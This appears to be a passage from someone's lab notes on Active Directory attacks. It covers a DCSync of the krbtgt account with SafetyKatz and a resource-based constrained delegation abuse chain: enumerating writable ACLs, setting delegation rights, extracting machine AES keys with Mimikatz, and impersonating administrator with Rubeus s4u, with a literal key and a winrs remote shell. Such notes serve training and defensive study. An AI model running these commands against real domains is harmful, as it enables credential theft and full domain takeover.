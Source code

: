After injection, we can run DCSync -

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit" 
```

### Resource based Constrained Delegation -

* This moves delegation authority to the resource/service administrator.
* Instead of SPNs on msDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor of msDS-AllowedToActOnBehalfOfOtherIdentity (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service.
* That is, the resource/service administrator can configure this delegation whereas for other types, SeEnableDelegation privileges are required which are, by default, available only to Domain Admins.

To abuse RBCD in the most effective form, we just need two privileges. -->

1. Write permissions over the target service or object to configure msDSAllowedToActOnBehalfOfOtherIdentity.
2. Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DSMachineAccountQuota is 10 for all domain users)

We already have admin privileges on student VMs that are domain joined machines.

Enumeration would show that the user **'ciadmin'** has Write permissions over the **dcorp-mgmt** machine!

```
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

Using the ActiveDirectory module, configure RBCD on dcorp-mgmt for student machines -->

```
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps

#PowerView -
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-student1$' 
Get-DomainRBCD
```

Now, let's get the privileges of dcorp-studentx$ by extracting its AES keys

```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 
```

Use the AES key of dcorp-studentx$ with Rubeus and access dcorpmgmt as ANY user we want -->

```
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt

winrs -r:dcorp-mgmt cmd.exe
```

**BONUS! --> Well known SID for System account - S-1-5-18 (remember)**

### Child to Parent (Across Trust)
